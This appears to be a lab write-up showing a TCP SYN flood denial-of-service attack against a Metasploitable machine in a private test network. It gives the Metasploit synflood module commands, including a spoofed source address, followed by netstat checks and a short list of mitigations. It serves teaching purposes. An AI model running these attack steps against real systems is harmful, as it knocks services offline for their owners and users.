

# TCP SYN Flood Attack (Denial of Service)

## 1. Objective

The objective of this lab is to demonstrate a **TCP SYN Flood attack**,
a Denial of Service (DoS) technique that exploits the TCP three-way
handshake mechanism.

The attacker sends a large number of TCP SYN packets to the target
without completing the connection. This causes the target to allocate
resources for half-open connections, eventually exhausting its capacity
and preventing legitimate clients from connecting.

## 2. Lab Environment

-   **Attacker machine:** Kali Linux
-   **Target machine:** Metasploitable
-   **Network:** 192.168.43.0/24
-   **Target service:** HTTP (TCP port 80)

## 3. Attack Steps

### a. Launch Metasploit Framework

``` bash
msfconsole
```

### b. Search for the SYN Flood module

``` bash
search synflood
```

### c. Select the SYN Flood module and display options

``` bash
use auxiliary/dos/tcp/synflood
show options
```

### d. Configure the target IP address, port and spoofed source IP address

``` bash
set RHOST 192.168.43.22
set RPORT 80
set SHOST 184.56.100.250
```

### e. Define the network interface

``` bash
set INTERFACE eth0
```

### f. Execute the TCP SYN Flood attack

``` bash
run
```

### g. Verification using netstat on the target

``` bash
netstat -ant | grep SYN_RECV
```

### h. Traffic analysis with Wireshark

Wireshark shows a large number of TCP SYN packets sent to the target
without corresponding ACK packets.


## 4. Impact of the Attack

The TCP SYN Flood attack disrupts the target's HTTP service by
exhausting the connection table.

## 5. Mitigation Techniques

-   Enable SYN cookies
-   Use firewalls or IDS/IPS
-   Apply rate limiting
-   Monitor TCP connection states

## 6. Conclusion

This lab demonstrates how TCP SYN Flood attacks exploit weaknesses in
the TCP handshake mechanism.
